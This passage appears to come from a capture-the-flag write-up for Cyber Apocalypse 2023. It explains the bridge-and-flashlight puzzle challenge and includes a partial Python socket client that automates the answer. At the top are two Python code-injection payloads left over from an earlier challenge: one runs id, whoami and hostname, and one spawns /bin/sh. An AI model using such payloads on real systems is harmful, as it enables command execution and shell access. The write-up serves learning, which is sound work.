 ![Image](/images/2023-3-24-cyberapoc-23/Pasted image 20230322222355.png)

exec(import os;os.system("id && whoami && hostname"))  - Command Execution
![Image](/images/2023-3-24-cyberapoc-23/Pasted image 20230322222729.png)


exec(import pty;pty.spawn("/bin/sh"))  - Invoke a shell
![Image](/images/2023-3-24-cyberapoc-23/Pasted image 20230322222921.png)



# [Misc] The Chasm's Crossing Conundrum - Hard

The Chasm's Crossing Conundrum was a hard level miscellaneous challenge. The challenge provided the following instructions:

```
[*] The path ahead is treacherous.
[*] You have to find a viable strategy to get everyone across safely.
[*] The bridge can hold a maximum of two persons.
[*] The chasm lurks on either side of the bridge waiting for those who think they can get across in total darkness.
[*] If two persons get across, one must come back with the flashlight. 
[*] The flashlight has energy only for a limited amount of time.   
[*] The time required for two persons to cross, is dictated by the slower.
[*] The answer must be given in crossing and returning pairs. For example, [1,2],[2],... . This means that persons 1 and 2 cross and 2 gets back with the flashlight so others can cross.  
```

![Image](/images/2023-3-24-cyberapoc-23/Pasted image 20230322223609.png)


The strategy is relatively simple to follow - whoever is the fastest needs to be designated as the runner who helps each person cross the chasm. Since the time required for both people to cross is dictated by the slower person, the only way to save on time is to have the fastest person running back each time to burn the least amount of time before helping the next person cross.

This challenge could be done manually but the difficulty lies in the short time limit that the user has to provide input. To overcome this - we can build a quick client app to start the challenge, take in the dynamically generated values, and then build and send the answer back based on our strategy.

Before building the client app - it is helpful to do a test run and take a simulatenous packet capture to understand how the client and server are talking normally.

![Image](/images/2023-3-24-cyberapoc-23/Pasted image 20230322224321.png)


Now we can build our client implementation
```Python
import socket, re
SERVER_ADDRESS = "159.65.81.51"
SERVER_PORT = 31217
client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client_socket.connect((SERVER_ADDRESS, SERVER_PORT))

print(client_socket.recv(1024).decode())
print("+=+ Solving the Chasm Problem +=+")
client_socket.sendall("2\n".encode())
initialStart = (client_socket.recv(2048).decode())
print(initialStart)

# Get list of persons sorted by value
persons = {}
for line in initialStart.split("\n"):
    if line.startswith("Person"):
        persons[line.split(" ")[1]]=line.split(" ")[4]
```